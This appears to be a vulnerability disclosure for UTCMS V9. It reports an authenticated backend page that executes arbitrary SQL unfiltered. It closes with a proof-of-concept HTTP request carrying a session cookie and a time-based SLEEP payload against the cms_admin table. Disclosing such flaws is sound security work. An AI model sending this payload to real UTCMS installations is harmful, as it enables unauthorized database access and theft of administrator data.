 # Vendor

HuangDou

# Product

UTCMS

# version

 V9

# Download 

https://github.com/usualtool/ut-cms

# Vulnerability

Execute any SQL statement

# Description

In the sql.php page, users can execute SQL query statements, but no results will be displayed. The problem is that there is no parameter filtering, and attackers can execute SELECT, CREATE, INSERT and other statements after logging into the backend.

# Analysis

In the app/modules/ut-data/admin/mysql.php , users can execute SQL query statements, but no results will be displayed. The problem is that there is no parameter filtering, and attackers can execute SELECT, CREATE, INSERT and other statements after logging into the backend.

<img width="1053" height="295" alt="image" src="https://github.com/user-attachments/assets/fcef40b4-23bb-452f-b2c3-25110015ae3a" />

We reproduce under normal no delay
<img width="1413" height="914" alt="image" src="https://github.com/user-attachments/assets/6ffb4526-40ef-4503-b08b-6ab061fee477" />


5 seconds to see
<img width="1418" height="919" alt="image" src="https://github.com/user-attachments/assets/26c04500-0c27-41ae-adac-c3ab509d1ada" />



# POC
```
POST /ut-cms-9/app/dev/?m=ut-data&p=mysql&do=mysql-sql HTTP/1.1
Host: 192.168.1.69
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=l7s63btrio4o1cepgib2l9v89m
Content-Length: 45

sql=SELECT+*+FROM+cms_admin+WHERE+SLEEP(5)%3b
```
